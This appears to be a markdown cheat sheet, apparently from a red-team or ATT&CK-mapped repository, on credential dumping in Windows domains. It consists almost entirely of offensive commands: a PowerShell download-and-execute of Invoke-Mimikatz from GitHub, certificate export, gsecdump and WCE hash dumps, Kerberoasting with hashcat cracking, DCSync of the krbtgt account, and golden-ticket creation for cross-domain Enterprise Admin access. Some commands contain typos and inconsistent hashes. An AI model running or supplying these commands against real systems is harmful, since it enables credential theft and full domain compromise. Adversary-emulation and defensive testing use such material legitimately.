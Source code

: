 # Credential Dumping

MITRE ATT&CK Technique: [T1003](https://attack.mitre.org/wiki/Technique/T1003)


## Powershell Mimikatz - Dump Credentials

Input:

    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"

## Powershell Mimikatz - Dump Certificates

Input:

    PS> Import-Module Invoke-Mimikatz.ps1 
    Invoke-Mimikatz –command '"privilege::debug"' 
    Invoke-Mimikatz –command '"crypto::capi"' 
    Invoke-Mimikatz –command '"crypto::certificates /export"' 
  
## Gsecdump

[Gsecdump](https://www.truesec.se/sakerhet/verktyg/saakerhet/gsecdump_v2.0b5)

Input:

    gsecdump -a

## Windows Credential Editor

[Windows Credential Editor](http://www.ampliasecurity.com/research/windows-credentials-editor/)

Input:

    wce -o output.txt

Output:

    C:\>wce -o output.txt
    WCE v1.2 (Windows Credentials Editor) - (c) 2010,2011 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
    Use -h for help.

    C:\>type output.txt
    test:AMPLIALABS:01020304050607080900010203040506:98971234567865019812734576890102
    C:\>

## Powershell Mimikatz - Dump Service Account Passwords (Keberoast)

[Powersploit] (https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

Input:

    PS> invoke-kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash <hash>
    
[hashcat] (https://github.com/hashcat/hashcat.git)

    PS> invoke-kerberoast -OutputFormat HashCat | Select-Object -ExpandProperty hash > ./krbtgs-23.txt
    hashcat -m 13100 -a 0 -w 4 --session kerb -o hash.pot --powertune-enable ./krb-tgs-23.txt
    /opt/rockyou.txt -r ./hashcat-3.10/rules/dive.rule

[JohnTheRipper (Magnum Ripper)] (https://github.com/magnumripper/JohnTheRipper)

    PS> invoke-kerberoast -OutputFormat John | Select-Object -ExpandProperty hash
    
## Powershell Mimikatz - Create Golden Ticket on a Parent Domain with a Bi-Directional Trust

[Powersploit] (https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

 #create golden ticket to use  
  
    PS> Import-Module .\Invoke-Mimikatz.ps1 PS> Import-Module .\PowerView.ps1 
    PS> Get-DomainSid  
    PS> Get-NetGroup “Enterprise Admins" -Domain <Domain> <SID> 
    

#Grab the NTLM hash of the krbtgt user for the child domain 
    
    PS> Invoke-Mimikatz -Command '"lsadump::dcsync /domain:<Domain> /user:krbtgt"' f320b90fa9c53969efc61146e77022b5
    

#Try mounting the C$ of the parent domain controller
    
    PS> dir \<Domain Controller>\c$ #Error - access denied
    

#Create a golden ticket for a user on the child domain with enterprise admin rights of the parent domain
   
    PS> Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<Domain> /sid:<SID> /krbtgt:<SID> /sids:<SID> /ptt"'
    

#Check administrative access to the parent domain controller
    
    PS> dir \\<Domain Controller>l\c$ #Allowed
    PS> Invoke-WmiMethod -Path Win32_process -Name create -ComputerName <Computer Name> -ArgumentList calc.exe
    

#Run DCSync with mimikatz
    
    PS> Invoke-Mimikatz -Command '"lsadump::dcsync /user:<username> /domain:<domain>"'
    

#DCSync built-in to Mimikatz
(https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/InvokeDCSync.ps1) 


    PS> Invoke-DCSync –PWDumpFormat 
    
#Create a golden ticket file if needed for backup
    
    PS> Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<Domain> /sid:<sid> 
        /krbtgt:f320b90fa9c53963efc61146e77022b5 /sids:<SID>"‘

    PS> Invoke-Mimikatz -Command '"kerberos::ptt ticketname.bin"'
